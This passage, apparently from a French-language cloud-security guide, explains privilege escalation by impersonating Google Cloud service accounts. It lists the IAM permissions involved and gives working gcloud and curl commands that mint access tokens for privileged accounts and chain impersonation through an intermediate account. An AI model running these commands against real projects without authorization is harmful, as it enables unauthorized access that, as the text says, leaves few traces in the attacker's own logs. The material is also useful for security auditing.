 5. **Utilisation du token** : Le principal utilise ce token pour agir en tant que compte de service
    

![Sequence diagram showing token creation and authentication flow using a Google Cloud service account and KeyCloak](https://pplx-res.cloudinary.com/image/upload/v1755933013/pplx_project_search_images/72a4bfafcb8fee6ab3f8e245adce8628d4e98d0c.png align="left")

### Permissions Critiques pour l'Impersonation

Les permissions suivantes sont essentielles pour l'impersonation de comptes de service :

`iam.serviceAccounts.getAccessToken` : Permet de générer des tokens d'accès OAuth 2.0 pour le compte de service `iam.serviceAccounts.signJwt` : Autorise la signature de tokens JWT avec la clé privée du compte de service  
`iam.serviceAccounts.signBlob` : Permet la signature de données arbitraires `iam.serviceAccounts.implicitDelegation` : Active la délégation implicite entre comptes de service

> 👉 *Note : Ces permissions peuvent aussi être présentes dans des* ***rôles personnalisés*** *(custom roles), pas uniquement dans les rôles natifs comme* `roles/iam.serviceAccountTokenCreator`. Il est donc essentiel de vérifier les permissions effectives des rôles assignés, et pas seulement leurs noms.

## Techniques d'Exploitation Critiques

### 1\. Exploitation du Rôle Service Account Token Creator

Le rôle `roles/iam.serviceAccountTokenCreator` constitue le vecteur d'attaque le plus direct pour l'impersonation de comptes de service. Ce rôle accorde les permissions nécessaires pour générer des tokens d'accès temporaires pour n'importe quel compte de service.

**Exploitation Technique :**

```bash
# Obtenir un token d'accès pour un compte de service privilégié
gcloud auth print-access-token \
    --impersonate-service-account=admin-service@project-id.iam.gserviceaccount.com

# Utiliser le token pour des opérations privilégiées
export ACCESS_TOKEN=$(gcloud auth print-access-token \
    --impersonate-service-account=admin-service@project-id.iam.gserviceaccount.com)

curl -H "Authorization: Bearer $ACCESS_TOKEN" \
    "https://compute.googleapis.com/compute/v1/projects/project-id/zones/zone-id/instances"
```

**Analyse d'Impact :** Cette technique permet une escalade de privilèges immédiate si le compte de service cible dispose de permissions élevées. L'attaquant peut effectuer toutes les actions autorisées par le compte de service sans laisser de traces directes dans ses propres logs d'activité.

### 2\. Attaques par Délégation de Comptes de Service

La permission `iam.serviceAccounts.implicitDelegation` permet un chaînage complexe d'impersonations, créant des chemins d'escalade de privilèges difficiles à détecter.

**Scénario d'Exploitation :**

```bash
# Étape 1 : Impersonation du compte intermédiaire
gcloud config set auth/impersonate_service_account \
    intermediate-service@project-id.iam.gserviceaccount.com

# Étape 2 : Utiliser le compte intermédiaire pour impersonner un compte privilégié
gcloud auth print-access-token \
    --impersonate-service-account=high-privilege-service@project-id.iam.gserviceaccount.com
```
